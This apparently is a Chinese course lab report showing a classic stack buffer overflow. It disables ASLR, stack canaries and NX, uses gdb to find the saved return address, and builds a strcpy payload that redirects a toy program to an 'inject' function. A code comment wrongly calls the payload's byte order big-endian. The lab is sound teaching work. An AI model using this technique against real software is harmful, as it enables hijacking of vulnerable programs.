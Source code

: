 # 第7章实验


## 实验名称

**简单栈溢出实验**

## 实验原理

栈被用于实现函数的调用和存储局部变量，当我们使用`gets`或`strcpy`等**没有输入限制**的不安全的函数时，攻击者可以写入超过某个局部变量申请的字节数，使得数据向高地址区覆盖，修改返回地址，让程序按照攻击者的想法运行。

<img src="./img/7-1.png" alt="7-1" style="zoom:50%;" />

## 实验环境

```shell
# 系统环境
OS: Ubuntu 20.04 focal(on the Windows Subsystem for Linux)
Kernel: x86_64 Linux 5.15.90.1-microsoft-standard-WSL2
CPU: AMD Ryzen 7 5700U with Radeon Graphics @ 16x 1.797GHz
RAM: 1677MiB / 6858MiB
# gcc
gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
```

## 实验步骤

### 准备阶段

- 更新`gcc, gdb, checksec`

```shell
❯ apt update
❯ apt install gcc-multilib
❯ apt install gdb
❯ apt install checksec
```

- 关闭进程空间地址随机化

```shell
# 首先看一下地址随机化的效果，可以发现在ASLR开启时，动态库的加载地址不同
❯ ldd /bin/bash
        linux-vdso.so.1 (0x00007fffb3dc4000)
        libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007f6cef006000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f6cef000000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6ceee0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6cef171000)
❯ ldd /bin/bash
        linux-vdso.so.1 (0x00007ffc82124000)
        libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007f710a76b000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f710a765000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f710a573000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f710a8d6000)
        
# 关闭地址随机化
❯ sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0

# 再次查看动态库的加载地址，可以看到两次加载的地址完全相同
❯ ldd /bin/bash
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007ffff7e5e000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ffff7e58000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c66000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
❯ ldd /bin/bash
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007ffff7e5e000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ffff7e58000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c66000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```

- 编写测试程序，代码内容见`../7/StackOverflow.c`

- 运行程序并检测保护机制

```shell
❯ gcc StackOverflow.c -o StackOverflow -Wall -m32 -g -fno-stack-protector -z execstack
# -Wall: 开启所有常规警告，便于检测代码问题
# -o: 指定输出文件名
# -g: 关闭所有优化体制
# -fno-stack-protector: 关闭Stack Canary保护
# -z execstack: 禁用 NX(No-eXecute protect)
# -m32: 将编译目标指定为32位

# 使用checksec检测目标文件的保护机制，确认没有Canary和NX保护
❯ checksec --file=StackOverflow
[*] '/root/StackOverflow'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    
# 查看运行结果
❯ ./StackOverflow
main exit...
```

### 实验阶段(gdb动态调试法)

完成实验环境的准备后，下面正式开始栈溢出攻击的实验。

首先将`input`的值暂时设定为`111122223333444455556666777788889999888877776666555544443333`

使用`gdb`工具调试`StackOverflow`程序，具体过程如下

```shell
❯ gdb StackOverflow -q
gef➤  b func_call            # 为func_call设断点
gef➤  r                      # 运行至断点处

gef➤  disass func_call       # 查看func_call的汇编代码(Intel格式)
Dump of assembler code for function func_call:
=> 0x5655621c <+0>:     endbr32
   0x56556220 <+4>:     push   ebp
   0x56556221 <+5>:     mov    ebp,esp
   0x56556223 <+7>:     push   ebx
   0x56556224 <+8>:     sub    esp,0x14
   0x56556227 <+11>:    call   0x56556293 <__x86.get_pc_thunk.ax>
   0x5655622c <+16>:    add    eax,0x2da8
   0x56556231 <+21>:    sub    esp,0x8
   0x56556234 <+24>:    lea    edx,[eax+0x4c]
   0x5655623a <+30>:    push   edx
   0x5655623b <+31>:    lea    edx,[ebp-0x18]
   0x5655623e <+34>:    push   edx
   0x5655623f <+35>:    mov    ebx,eax
   0x56556241 <+37>:    call   0x56556080 <strcpy@plt>
   0x56556246 <+42>:    add    esp,0x10
   0x56556249 <+45>:    nop
   0x5655624a <+46>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x5655624d <+49>:    leave
   0x5655624e <+50>:    ret                # 找到ret的偏移量
End of assembler dump.

gef➤  b*(func_call+50)                     # 在ret处设置断点
gef➤  c                                    # 继续运行至ret处
gef➤  x/x $esp                             # 查看目前esp中的内容，
0xffffcfec:     0x38383838        
gef➤  p &inject
$1 = (void (*)()) 0x565561ed <inject>       # 查看inject的地址

```

查看`esp`寄存器的内容可以发现溢出的内容覆盖返回地址的位置在`8888`的位置，将其修改为`inject`的地址，使程序在本来应该返回到`main`的位置返回到`inject`函数。

```c
char input[] = "1111222233334444555566667777\xed\x61\x55\x56";  // 使用大端序
```

重新编译运行`StackOverlfow.c`得到`StackOverflow`程序

```shell
❯ gcc StackOverflow.c -o StackOverflow -Wall -m32 -g -fno-stack-protector -z execstack
❯ ./StackOverflow
*****inject success*****
```

结果是`inject`被运行，则栈溢出攻击成功。




